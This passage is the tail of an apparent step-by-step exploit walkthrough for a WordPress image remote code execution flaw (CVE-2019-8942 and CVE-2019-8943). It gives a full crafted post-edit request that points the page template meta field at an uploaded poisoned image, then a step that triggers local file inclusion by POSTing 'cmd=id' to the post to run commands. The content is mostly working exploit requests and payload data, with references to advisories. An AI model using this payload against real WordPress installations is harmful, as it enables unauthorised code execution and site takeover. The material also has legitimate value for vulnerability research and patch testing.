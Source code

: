 ```
_wpnonce=16f64ed1dd&_wp_http_referer=%2Fwp-admin%2Fpost-new.php&user_ID=2&action=editpost&originalaction=editpost&post_author=2&post_type=post&original_post_status=auto-draft&referredby=http%3A%2F%2F180.76.234.24%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&_wp_original_http_referer=http%3A%2F%2F180.76.234.24%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&auto_draft=&post_ID=7&meta-box-order-nonce=32fc2f4c9b&closedpostboxesnonce=f550a7dc60&post_title=Here+is+the+PoC&samplepermalinknonce=d703c244b8&content=Here+is+the+PoC.&wp-preview=&hidden_post_status=draft&post_status=draft&hidden_post_password=&hidden_post_visibility=public&visibility=public&post_password=&mm=02&jj=25&aa=2019&hh=22&mn=33&ss=47&hidden_mm=02&cur_mm=02&hidden_jj=25&cur_jj=25&hidden_aa=2019&cur_aa=2019&hidden_hh=22&cur_hh=22&hidden_mn=33&cur_mn=33&original_publish=Publish&publish=Publish&post_format=0&post_category%5B%5D=0&tax_input%5Bpost_tag%5D=&newtag%5Bpost_tag%5D=&_thumbnail_id=-1&excerpt=&trackback_url=&metakeyinput=&metavalue=&_ajax_nonce-add-meta=ba64f17c06&advanced_view=1&comment_status=open&ping_status=open&post_name=&meta_input[_wp_page_template]=poc-e1551133870454.jpg
```

* Take a note on the post id, e.g. `post_ID=7`.

#### 11. Trigger the LFI for arbitrary code execution by accessing the post with the payload

* Send a POST request to `http://127.0.0.1/?p=7` with data `cmd=id`, you will see the code has been executed successfully.
![](http://avfisher.win/wp-content/uploads/2019/02/step_11.png)

# Reference
* <https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/>
* <https://nvd.nist.gov/vuln/detail/CVE-2019-8942>
* <https://nvd.nist.gov/vuln/detail/CVE-2019-8943>
